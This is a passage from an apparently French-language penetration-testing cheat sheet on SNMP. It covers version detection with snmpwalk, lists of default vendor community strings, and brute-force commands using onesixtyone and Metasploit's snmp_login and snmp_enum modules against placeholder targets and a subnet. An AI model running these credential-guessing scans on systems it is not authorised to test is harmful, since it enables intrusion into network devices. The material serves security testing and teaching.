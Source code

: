 ### Version SNMP Detection
```bash
# 1. SNMPv1 (le plus commun et faible)
snmpwalk -c public -v1 target.com 1.3.6.1.2.1.1.1.0

# 2. SNMPv2c (communauté améliorée)
snmpwalk -c public -v2c target.com 1.3.6.1.2.1.1.1.0

# 3. SNMPv3 (sécurisé avec auth)
snmpwalk -v3 -l authPriv -u username -a SHA -A password -x AES -X privpass target.com
```

## 🔑 Phase 2 : Brute Force Community Strings

### Community Strings Communes
```bash
# 1. Strings par défaut
public, private, manager, community
admin, administrator, root, guest
cisco, default, secret, password

# 2. Strings spécifiques constructeurs
# Cisco: cisco, rmon, ilmi
# HP: hp, admin
# Dell: dell, public
# 3Com: 3com, admin, monitor
```

### Outils de Brute Force

#### onesixtyone (Rapide)
```bash
# 1. Test communautés courantes
onesixtyone target.com

# 2. Avec wordlist
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com

# 3. Sur range d'IPs
onesixtyone -c community.txt 192.168.1.0/24

# 4. Verbeux
onesixtyone -c community.txt -i targets.txt -w 100
```

#### Metasploit SNMP
```bash
msfconsole
# 1. Community scanner
use auxiliary/scanner/snmp/snmp_login
set RHOSTS target.com
set PASS_FILE /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt
run

# 2. Énumération système
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS target.com
set COMMUNITY public
run
```

